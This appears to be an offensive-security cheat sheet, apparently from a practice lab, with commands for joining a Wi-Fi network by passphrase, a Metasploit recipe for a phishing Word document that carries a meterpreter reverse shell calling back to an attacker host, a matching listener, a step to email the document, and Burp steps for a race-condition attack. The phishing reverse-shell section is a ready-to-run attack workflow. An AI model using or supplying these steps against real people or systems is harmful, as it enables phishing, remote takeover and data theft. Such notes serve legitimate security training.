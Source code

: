 ```

# connect to wifi using the psk in command line:
(1) wpa_passphrase MalwareM_AP 'ENTER  PSK HERE' > config
(2) sudo wpa_supplicant -B -c config -i wlan2
```

=================================================================================
# Phishing Reverse Shell
```
# Creating the Malicious Document
msfconsole
set payload windows/meterpreter/reverse_tcp			# the payload use a reverse shell
use exploit/multi/fileformat/office_word_macro			# a module to create a document with a macro that contain rev shell
set LHOST CONNECTION_IP 
set LPORT 8888 
exploit 							# generates a macro and embeds it in a document
see where is the file stored


# Listening for Incoming Connections (Metasploit reverse shell)
msfconsole 
use multi/handler 						# to handle incoming connections
set payload windows/meterpreter/reverse_tcp 			# rev shell
set LHOST CONNECTION_IP 
set LPORT 8888 
exploit 							# starts listening


# Email the Malicious Document
```

=================================================================================
# Race condition
```
It is about Time-of-Check to Time-of-Use (TOCTOU).

To do it with burp, we can send multiple requests at once:
- send the request to repeater
- Ctrl + R to have it multiple time
- create a group for all request
- send the requests as parallel

```

=================================================================================
# 
```


```